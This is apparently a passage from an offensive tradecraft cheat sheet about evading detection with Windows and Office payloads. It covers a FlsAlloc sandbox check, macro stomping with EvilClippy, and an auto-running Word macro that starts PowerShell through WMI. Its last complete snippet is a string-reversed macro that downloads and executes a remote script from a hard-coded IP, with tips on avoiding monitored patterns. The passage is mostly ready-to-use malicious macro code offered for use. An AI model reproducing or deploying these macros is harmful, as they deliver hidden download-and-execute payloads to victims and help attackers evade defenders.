 #### FlsAlloc

[Full Source](../src/csharp/stub/Stub-FlsAlloc.cs)

```
IntPtr mem = FlsAlloc(IntPtr.Zero);
if (mem == null)
{
    return;
}
```

### VBA Macro Stomping

Use [EvilClippy](https://github.com/outflanknl/EvilClippy)

```
EvilClippy.exe -s fakecode.vba -t 2016x86 macrofile.doc
```

### VBA Dechained via WMI

Execute as a child process

[Full Source](../src/visualbasic/stub/Stub-DechainedWmi.vb)

```
Sub MyMacro
    strArg = "powershell"
    GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

### VBA Obfuscation

`StrReverse` can be used to obfuscate. Heavily monitored, do not use in more places than once. Keep in its own function and call the function multiple times. 

```
Function bears(cows)
    bears = StrReverse(cows)
End Function

Sub Mymacro()
Dim strArg As String
    strArg = bears("))'txt.nur/021.911.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")
    GetObject(bears(":stmgmniw")).Get(bears("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```

### VBA Decimal Obfuscation
